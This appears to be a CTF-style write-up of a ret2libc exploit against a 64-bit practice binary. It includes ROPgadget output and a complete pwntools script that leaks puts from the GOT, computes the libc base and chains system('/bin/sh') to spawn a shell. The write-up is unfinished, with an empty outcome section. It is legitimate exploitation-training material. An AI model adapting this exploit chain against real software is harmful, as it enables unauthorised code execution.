

# 🧨 ret2libc Exploit Write-up — 64-bit Binary (`vuln-64`)

## 🔍 Goal

Exploit a vulnerable 64-bit binary to spawn a shell using a **ret2libc** technique by:

* Leaking a libc function address (`puts`)
* Calculating the base address of `libc`
* Calling `system("/bin/sh")` with proper stack alignment

---

## 📄 Binary Details

| Protection   | Status            |
| ------------ | ----------------- |
| Architecture | 64-bit (x86\_64)  |
| PIE          | ❌ No (Fixed base) |
| NX           | ✅ Enabled         |
| Stack Canary | ❌ None            |
| RELRO        | Partial           |
| RWX Segments | ✅ Present         |

---

## 🧠 Exploit Strategy (ret2libc)

We exploit a **buffer overflow vulnerability** to:

1. Leak the address of `puts()` from the GOT.
2. Calculate the **libc base address** by subtracting the offset of `puts` from the leak.
3. Construct a new ROP chain to call:

   ```c
   system("/bin/sh");
   ```

   using resolved libc addresses.

---

## 🧰 Gadgets Used

* `pop rdi; ret` — to set up the first argument in `rdi` for function calls.
* `ret` — to align the stack (important for 64-bit glibc).

These were found using tools like `ROPgadget`:

```bash
ROPgadget --binary vuln-64 | grep rdi
0x0000000000401042 : fisubr dword ptr [rdi] ; add byte ptr [rax], al ; push 1 ; jmp 0x401020
0x00000000004010a6 : or dword ptr [rdi + 0x404038], edi ; jmp rax
0x00000000004011cb : pop rdi ; ret   # <--- this is what we will use
```

or programmatically with:


```python
rop = ROP(elf)
POP_RDI = 0x4011cb  # hardcoded manually found
RET = rop.find_gadget(['ret'])[0]  # dynamic
```


---

## 📜 Final Exploit Code

```python
from pwn import *

elf = context.binary = ELF('./vuln-64')
libc = elf.libc
p = process()

# Hardcoded pop rdi; ret gadget
POP_RDI = 0x4011cb

# Dynamically find a ret gadget for stack alignment
rop = ROP(elf)
RET = rop.find_gadget(['ret'])[0]

# === Stage 1: Leak puts address ===
p.recvline()  # skip any banner/prompt

payload = flat(
    b'A' * 40,           # overflow buffer
    POP_RDI,             # pop rdi; ret
    elf.got['puts'],     # argument: puts@GOT
    elf.plt['puts'],     # call puts
    elf.sym['main']      # return to main for stage 2
)

p.sendline(payload)

# Read the leaked puts address
puts_leak = u64(p.recvuntil(b'\n').strip().ljust(8, b'\x00'))
log.success(f'Leaked puts address: {hex(puts_leak)}')

# Calculate libc base address
libc.address = puts_leak - libc.sym['puts']
log.success(f'Libc base: {hex(libc.address)}')

# === Stage 2: Call system("/bin/sh") ===

# Find "/bin/sh" in libc
bin_sh = next(libc.search(b'/bin/sh\x00'), None)
if not bin_sh:
    log.error("Couldn't find /bin/sh in libc!")
    exit(1)

# Final payload: ROP chain to call system("/bin/sh")
payload = flat(
    b'A' * 40,
    POP_RDI,
    bin_sh,
    RET,                # stack alignment fix
    libc.sym['system'],
    libc.sym['exit']
)

p.sendline(payload)
p.interactive()
```

---

32-bit: Addresses are 4 bytes, so you use `u32(p.recv(4))` directly — no padding needed.
 here to see the 32 bit

64-bit: libc addresses are often only 6 bytes long, meaning they are preceded with 0x0000, so pad with 2 null bytes: `u64(p.recv(6) + b'\x00\x00')`.


## Outcome


---


